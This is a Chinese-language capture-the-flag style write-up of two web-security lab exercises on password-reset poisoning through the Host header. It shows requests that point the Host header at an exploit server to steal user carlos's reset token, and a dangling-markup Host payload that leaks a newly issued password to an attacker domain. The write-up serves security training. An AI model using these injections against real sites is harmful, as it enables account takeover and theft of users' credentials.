 ### 密码重置漏洞（直接将重置密码链接发送到 Host 头指定的邮箱）

POST /forgot-password 这个包能触发服务器发送一个重置密码的链接到用户邮箱。

![image-20250502164412840](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502164412840.png)

如果我们修改 Host: test.com，发现也能成功。

![image-20250502164603480](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502164603480.png)

而且服务器的逻辑就是把 Host 头直接拼接进要重置密码的 url 网址里。

![image-20250502164622800](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502164622800.png)

对这个包再次修改：

- host 头换成 exploit-0af40064043c14b6823fb404018d0007.exploit-server.net
- 用户换成 carlos。

在 exploit-server.net 中看到这项记录，说明服务器生成这项链接发送给用户邮箱，用户访问了他。

![image-20250502164918376](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502164918376.png)

使用这个 token 直接访问正常情况下的修改密码页面：

![image-20250502165153187](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502165153187.png)

由于这个 token 对应是 carlos，所以你修改的也是 carlos 的密码。

开发者生成链接时，直接将 Host 头拼接进去发送给用户邮箱，用户可能自己点击或者其他如病毒扫描程序访问，导致 token 被回显到攻击者服务器被窃取。

### Host 头校验场景（将 Host 头拼接进邮箱中的链接）

在这个场景下，用户重置的密码将是服务器生成的随机值。

![image-20250502171119639](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502171119639.png)

修改 Host 头，出现报错，说明对 Host 头有校验：

![image-20250502171352312](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502171352312.png)

输入如下 payload 看看是否能加端口：

```
Host: 0aa30016037db9c780828001007d0090.web-security-academy.net:HACK
```

![image-20250502171743306](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502171743306.png)

由此判断后端逻辑直接拿 Host 头拼接到这个链接。

##### 构建攻击

![image-20250502172723026](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502172723026.png)

```
Host: 0aa30016037db9c780828001007d0090.web-security-academy.net:'<a href="//exploit-0a0f004b03c2b90c80ba7f7e01010038.exploit-server.net/?

username=carlos
```

这样的话：

```
服务端发送如下内容：
<a href='0aa30016037db9c780828001007d0090.web-security-academy.net:'<a href="//exploit-0a0f004b03c2b90c80ba7f7e01010038.exploit-server.net/?'>click here</a> to login with your new password: GJWYB0A1RA</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

其中用户收到 email 后，会将如下整体错误当成链接，而其中就包含密码：

exploit-0a0f004b03c2b90c80ba7f7e01010038.exploit-server.net/?'>click here</a> to login with your new password: GJWYB0A1RA</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>

当用户存在病毒扫描程序时，他会访问这个链接，并回显在攻击者服务器上：
```

![image-20250502173107800](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Host%20%E5%A4%B4%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/images/image-20250502173107800.png)